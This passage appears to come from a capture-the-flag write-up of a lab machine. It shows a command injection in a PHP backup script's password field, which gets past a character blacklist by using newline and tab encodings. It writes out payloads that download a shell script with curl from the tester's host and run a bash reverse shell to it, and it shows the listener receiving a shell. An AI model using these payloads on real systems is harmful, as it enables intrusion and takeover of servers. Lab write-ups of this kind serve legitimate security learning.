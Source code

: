 ```bash
zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &
```

We can aso see a list of black listed characters that we can't put in the password parameter send with the backup request

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];

[...]

$password = cleanEntry($_POST['password']);
```

One char that's missing from the list is line feed '\n'.

![poc](12.png)

We managed to run `ls` to list files.

## **Foothold**

Now I'll try `curl` to reach my python server.

```bash
curl+10.10.16.83
```

That failed, maybe it's because the space, I'll replace it with a tab `%09'

```bash
curl%0910.10.16.83
```

With that I managed to get a hit on my server, now I'll upload bash reverse shell and put in /tmp.

```bash
bash -i >& /dev/tcp/10.10.16.83/9001 0>&1
```

```text
password=arHkG7HAI68X8s1J%0acurl%0910.10.16.83/shell.sh%09-o%09/tmp/file.sh
```

I'll setup a listener and then execute the file

```text
password=arHkG7HAI68X8s1J%0abash%09/tmp/file.sh
```

```terminal
┌──[10.10.16.83]-[sirius💀parrot]-[25-08-16 20:48]-[~/ctf/htb/noc]
└──╼[★]$ nc -lvnp 9001
Listening on 0.0.0.0 9001                                                                      
Connection received on 10.10.11.64 52980                                                       
bash: cannot set terminal process group (836): Inappropriate ioctl for device                  
bash: no job control in this shell                                                             
www-data@nocturnal:~/nocturnal.htb$ python3 -c 'import pty; pty.spawn("/bin/bash")'            
<tb$ python3 -c 'import pty; pty.spawn("/bin/bash")'                                           
www-data@nocturnal:~/nocturnal.htb$ export TERM=xterm                                          
export TERM=xterm                                                                              
www-data@nocturnal:~/nocturnal.htb$ ^Z        
zsh: suspended  nc -lvnp 9001                                                                  

┌──[10.10.16.83]-[sirius💀parrot]-[25-08-16 20:50]-[~/ctf/htb/noc]                             
└──╼[★]$ stty raw -echo; fg                                                                    
[1]  + continued  nc -lvnp 9001                                                                
                                                                                               
www-data@nocturnal:~/nocturnal.htb$ id                                                         
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
